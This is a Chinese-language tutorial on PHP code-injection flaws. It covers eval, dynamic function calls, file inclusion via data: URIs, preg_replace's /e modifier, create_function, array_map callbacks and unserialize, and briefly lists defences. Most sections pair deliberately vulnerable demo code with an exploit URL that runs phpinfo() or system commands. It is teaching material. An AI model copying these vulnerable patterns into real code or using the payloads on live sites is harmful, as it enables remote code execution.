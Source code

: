 一 代码执行函数

PHP中可以执行代码的函数。如eval()、assert()

demo code 1.1:

<?php
echo `dir`;
?>
eval函数将输入的字符串参数当作PHP程序代码来执行

函数原型:

mixed eval(string code_str) //eval注入一般发生在攻击者能控制输入的字符串的时候

    //ex2.php 
    $var = "var"; 
    if (isset($_GET["arg"])) 
    { 
    $arg = $_GET["arg"]; 
    eval("\$var = $arg;"); 
    echo "\$var =".$var; 
    } 
    ?> 

当我们提交http://www.sectop.com/ex2.php?arg=phpinfo();漏洞就产生了；

动态函数

    php 
    func A() 
    { 
    dosomething(); 
    } 
    func B() 
    { 
    dosomething(); 
    } 
    if (isset($_GET["func"])) 
    { 
    $myfunc = $_GET["func"]; 
    echo $myfunc(); 
    } 
    ?> 

程序员原意是想动态调用A和B函数，那我们提交http://www.sectop.com/ex.php?func=phpinfo漏洞产生

防范方法

1、尽量不要执行外部命令

2、使用自定义函数或函数库来替代外部命令的功能

3、使用escapeshellarg函数来处理命令参数

4、使用safe_mode_exec_dir指定可执行文件的路径

esacpeshellarg函数会将任何引起参数或命令结束的字符转义，单引号“’”，替换成“\’”，双引号“"”，替换成“\"”，分号“;”替换成“\;”

用safe_mode_exec_dir指定可执行文件的路径，可以把会使用的命令提前放入此路径内

safe_mode = On

safe_mode_exec_dir = /usr/local/php/bin/

二 文件包含代码注射

文件包含函数在特定条件下的代码注射，如include()、include_once()、 require()、require_once()。

当allow_url_include=On ，PHP Version>=5.2.0 时，导致代码注射。

demo code 2.1:

<?php
include($_GET['a']);
?>

访问http://127.0.0.1/include.php?a=data:text/plain,%3C?php%20phpinfo%28%29;?%3E 即
执行phpinfo()。

三 正则匹配代码注射

众所周知的preg_replace()函数导致的代码注射。当pattern中存在/e模式修饰符，即允许执行代码。这里我们分三种情况讨论下

3.1 preg_replace() pattern 参数注射

pattern即第一个参数的代码注射。
当magic_quotes_gpc=Off时，导致代码执行。

demo code 3.1:

<?php
echo $regexp = $_GET['reg'];
$var = '<php>phpinfo()</php>';
preg_replace("/<php>(.*?)$regexp", '\\1', $var);
?>

访问http://127.0.0.1/preg_replace1.php?reg=%3C\/php%3E/e 即
执行phpinfo()。

3.2 preg_replace() replacement参数注射

replacement即第二个参数的代码注射，导致代码执行。


demo code 3.2:

<?
preg_replace("/menzhi007/e",$_GET['h'],"jutst test menzhi007!");
?>

当我们提交 http://127.0.0.1/preg_replace2.php?h=phpinfo() 即
执行phpinfo()。

3.3 preg_replace()第三个参数注射

我们通过构造subject参数执行代码。提交：http://127.0.0.1/preg_replace3.php?h=[php]phpinfo()[/php]

或者 http://127.0.0.1/preg_replace3.php?h=[php]${phpinfo%28%29}[/php] 导致代码执行

demo code 3.3:

<?
preg_replace("/\s*
php
(.+?)
\/php
\s*/ies", "\\1", $_GET['h']);
?>

四 动态代码执行

4.1 动态变量代码执行

demo code 4.1:

<?php
$dyn_func = $_GET['dyn_func'];
$argument = $_GET['argument'];
$dyn_func($argument);
?>

我们提交 http://127.0.0.1/dyn_func.php?dyn_func=system&argument=ipconfig 执行ipconfig命令

4.2 动态函数代码执行

demo code 4.2:

<?php
$foobar = $_GET['foobar'];
$dyn_func = create_function('$foobar', "echo $foobar;");
$dyn_func('');
?>

我们提交 http://127.0.0.1/create_function.php?foobar=system%28dir%29 执行dir命令

五 其他

5.1 ob_start()函数的代码执行

demo code 5.1:

<?php
$foobar = 'system';
ob_start($foobar);
echo 'dir';
ob_end_flush();
?>

5.2 array_map()函数的代码执行

demo code 5.2:

<?php
$evil_callback = $_GET['callback'];
$some_array = array(0, 1, 2, 3);
$new_array = array_map($evil_callback, $some_array);
?>

我们提交 http://127.0.0.1/array_map.php?callback=phpinfo 即执行phpinfo()。



5.3 unserialize()与eval()

unserialize（）是PHP中使用率非常高的函数。不正当使用unserialize（）容易导致安全隐患。
(黑哥那个挑战2 http://hi.baidu.com/hi_heige/blog/item/505b2828da5b18f499250a9b.html)

demo code 5.3:

<?php
class Example {
var $var = '';
function __destruct() {
eval($this->var);
}
}
unserialize($_GET['saved_code']);

?>
我们提交 http://127.0.0.1/unserialize.php?saved_code=O:7:%22Example%22:1:{s:3:%22var%22;s:10:%22phpinfo%28%29;%22;} 即执行phpinfo()。

5.4 容易导致安全问题的函数

同类型函数还有很多
array_map()
usort(), uasort(), uksort()
array_filter()
array_reduce()
array_diff_uassoc(), array_diff_ukey()
array_udiff(), array_udiff_assoc(), array_udiff_uassoc()
array_intersect_assoc(), array_intersect_uassoc()
array_uintersect(), array_uintersect_assoc(), array_uintersect_uassoc()
array_walk(), array_walk_recursive()
xml_set_character_data_handler()
xml_set_default_handler()
xml_set_element_handler()
xml_set_end_namespace_decl_handler()
xml_set_external_entity_ref_handler()
xml_set_notation_decl_handler()
xml_set_processing_instruction_handler()
xml_set_start_namespace_decl_handler()
xml_set_unparsed_entity_decl_handler()
stream_filter_register()
set_error_handler()
register_shutdown_function()
register_tick_function()